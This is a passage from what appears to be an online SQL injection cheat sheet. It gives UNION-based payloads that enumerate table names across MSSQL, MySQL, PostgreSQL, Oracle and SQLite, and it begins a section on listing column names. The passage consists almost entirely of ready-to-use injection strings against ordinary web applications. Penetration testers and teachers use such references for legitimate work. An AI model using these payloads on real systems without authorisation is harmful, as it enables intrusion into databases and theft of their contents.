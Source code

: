 ```txt
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

### [MySQL](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#mysql-1)

```html
' UNION SELECT table_name,NULL FROM information_schema.tables-- -
' UNION SELECT table_name,NULL FROM information_schema.tables#

<!-- group_concat(): Dump all tables simultaneously -->
' UNION SELECT group_concat(table_name),NULL FROM information_schema.tables-- -
' UNION SELECT group_concat(table_name),NULL FROM information_schema.tables#
```

### [PostgreSQL](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#postgresql-1)

```txt
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

### [Oracle](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#oracle-1)

```txt
' UNION SELECT table_name,NULL FROM all_tables--
```

### [SQLite](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#sqlite-1)

```html
' UNION SELECT tbl_name FROM sqlite_master--
' UNION SELECT tbl_name,NULL FROM sqlite_master--
```

  

## [List Column Names](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#list-column-names)

Get column names from the table name which we got.

### [MSSQL](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#mssql-1-1)

```txt
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'--
```

### [MySQL](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#mysql-1-1)
